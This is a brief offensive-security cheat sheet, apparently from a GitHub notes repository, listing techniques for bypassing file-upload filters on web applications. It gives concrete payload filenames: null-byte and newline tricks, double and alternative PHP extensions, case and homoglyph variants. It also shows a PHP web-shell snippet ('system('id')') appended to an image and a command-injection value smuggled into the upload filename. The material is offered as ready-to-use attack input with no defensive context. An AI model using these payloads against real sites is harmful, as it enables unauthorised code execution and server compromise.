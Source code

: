 # File Upload Bypasses

Here some bypasses 

- Null Byte (%00) Bypasses or fuzz:
    
    `test.php` → `test.php%00.jpg or test%00.php`
    
    ```bash
    test.php%0A.jpg
    test.php\n.jpg
    test.php\u000a.jpg
    test.php\u560a.jpg
    test.php#.jpg
    test.php%23.jpg
    test.php\u003b.jpg
    test.php;.jpg
    ```
    
- Nth Extentsion Bypasses:
    
    `test.php` → `test.jpg.php`
    
- Change the content type
- Magic Byte Bypasses
- Client Side Validation Bypass
- Block List Bypass
    
    `test.php, test.php3, test.pHP`
    
- Homographic Character Bypass:
- test.php → test.P hp ( p is different ) site is useful https://www.irongeek.com/homoglyph-attack-generator.php
    
    ```bash
    file upload vunlerability:
    
    upload a .php file
    for bypasses: 
    1- make it ali.php%00.png
    2- make it ali.php5 --> alternatives
    3- make it ali.php.
    4- make it ali.p.php.hp
    5- make a pic with .png and add your <?php system('id') ?> at the end
    6- change "filename=ali.png" to filename="ali||sleep 30||.png" in the request
    ```